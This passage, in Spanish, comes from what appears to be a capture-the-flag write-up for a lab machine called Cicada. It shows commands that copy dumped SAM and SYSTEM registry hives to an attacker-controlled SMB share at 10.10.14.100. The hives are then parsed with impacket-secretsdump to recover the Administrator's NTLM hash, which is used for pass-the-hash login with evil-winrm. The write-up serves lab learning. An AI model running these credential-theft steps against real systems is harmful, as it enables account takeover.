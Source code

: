 ![img](./img/cicada/img20.png)

Ahora se procede a pasar los archivos generados a la maquina host para proceder a analizar la información de cada archivo.

```ruby
sudo impacket-smbserver KzFFile . -smb2support
```

Se enviar los archivo `samR` y `systemR` desde Windows a la maquina host.

```ruby
copy samR \\10.10.14.100\KzFFile\samR
copy systemR \\10.10.14.100\KzFFile\systemR
```

Se realiza la explotación con `impacket` para ver lo archivos que fueron copiados y revisar que contienen, pero va hacer en LOCAL.

```ruby
impacket-secretsdump -sam samR -system systemR LOCAL
```

Con esa información miramos que obtenemos los hash NTLM, pero lo interesante es que obtenemos el Hash NTLM del usuario `Administrator`.

![img](./img/cicada/img21.png)

Ahora con el hash NTLM y utilizando `evil-winrm` con la parte del hash LM la usamos para conectarnos a la cuenta del usuario `Administrator`.
